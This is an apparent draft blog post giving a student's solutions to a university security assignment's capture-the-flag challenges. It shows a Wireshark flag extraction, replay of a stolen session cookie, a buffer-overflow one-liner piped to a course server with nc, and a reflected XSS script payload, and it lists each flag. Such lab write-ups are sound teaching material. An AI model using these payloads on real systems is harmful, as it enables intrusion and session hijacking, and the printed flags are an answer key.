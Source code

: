```yaml
---
layout: post
published: false
title: CS2107 - Assignment 2
---
```

# Introduction to wireshark
1. Download the pcap
2. right click the packet  > Follow > TCP stream
3. Flag is inside

code: `flag{b@bYsh@rk_doo0o0o_W1r3sh@rk_doOo0o_d0o0o0o_d0o_W1rEsh@rk}`

# Cookie Monster
1. Filter the wireshark by cookie `http.cookie`
2. Search for the cookie within the packet
	`cs2107 = 19d07781081e792d7a67d85c3cd1b061`
3. Enter the website in the packet: http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb (It mus say nice try)
4. Insert the cookie you have found in step 2

Flag: `http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb`

# Stack Overflow
1. Install indian in ubuntu
2. Little endian want ur input to be in this format: `0721CDAB`
3. `echo -n -e '\x07\x21\xcd\xab'`
4. Buffer overflow the programmer with 36 characters at the front 
5. Use pipelining to push the output into ur program 
	`echo -n -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | ./simple`
- [Idea](https://stackoverflow.com/questions/26949856/how-do-you-take-user-input-as-hex-characters-through-gets-function-linux)
6. Just do the same thing on the actual server
`echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | nc ctf.nus-cs2107.com 10003`

Flag: `flag{6e97e993d3caa7952c170accf2398f78}`

# XSS me
1. Enter the following into the textbox
`"><script>alert('gimme the flag pls')</script>`

Flag: `flag{R3fleCt3D_xSs_is_V3R7_34Sy_R1GH7?}`



Flag: `flag{R3fleCt3D_xSs_is_V3R7_34Sy_R1GH7?}`

